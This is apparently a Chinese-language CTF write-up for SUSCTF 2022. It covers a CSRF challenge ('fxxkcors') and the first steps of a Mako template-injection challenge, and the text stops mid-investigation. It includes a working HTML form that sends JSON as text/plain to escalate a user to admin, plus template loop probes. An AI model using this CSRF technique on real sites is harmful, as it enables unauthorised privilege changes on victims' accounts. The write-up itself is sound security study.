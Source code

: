 ```yaml
---
title: susctf
date: 2022-1-27 15:10:33
tags: CSRF
categories: 比赛题目复现
top_img: https://images.wallpaperscraft.com/image/single/path_fog_trees_125481_1280x720.jpg
cover: https://images3.alphacoders.com/109/thumbbig-109167.webp
---
```


# fxxkcors

考点：

```
1.CSRF
```

有个js附件下载下来，据说其内容是用**puppeteer**去模拟浏览器登录，然后访问我们给定的链接(原理并不清晰)

![image-20220304105119151](C:\Users\Windflower\AppData\Roaming\Typora\typora-user-images\image-20220304105119151.png)

在登陆后有个提示

![image-20220304105206612](C:\Users\Windflower\AppData\Roaming\Typora\typora-user-images\image-20220304105206612.png)

只需要更改权限为`normal admin`就能拿到flag，不是admin登陆的不能修改权限

![image-20220304105321486](C:\Users\Windflower\AppData\Roaming\Typora\typora-user-images\image-20220304105321486.png)

## 解题思路

构造CSRF，参考[浅谈CSRF](https://www.jianshu.com/p/7f33f9c7997b)，然后利用题目提供的Admin report访问进行CSRF权限提升

还需注意要使Content-Type: text/plain，然后body中是json数据，原因是因为服务没有验证 JSON 的 content-type

表单

```html
<form id=a action="http://124.71.205.122:10002/change.php" method="POST" enctype="text/plain">
<input name='{"username":"fweewfwef", "abc":"' value='123"}'>
</form>
<script> a.submit(); </script> 
```

# HTML practice

提交`##`会使页面为空，后面发现是**[mako](https://blog.csdn.net/baidu_35085676/article/details/80560847)**框架

利用mako框架的循环来验证

```python
% for i in l:
    ${i}
% endfor
```

```python
% for i in (1,2,3):
    2
% endfor
```

页面渲染了3个2，确定是mako框架，后翻阅文档.....
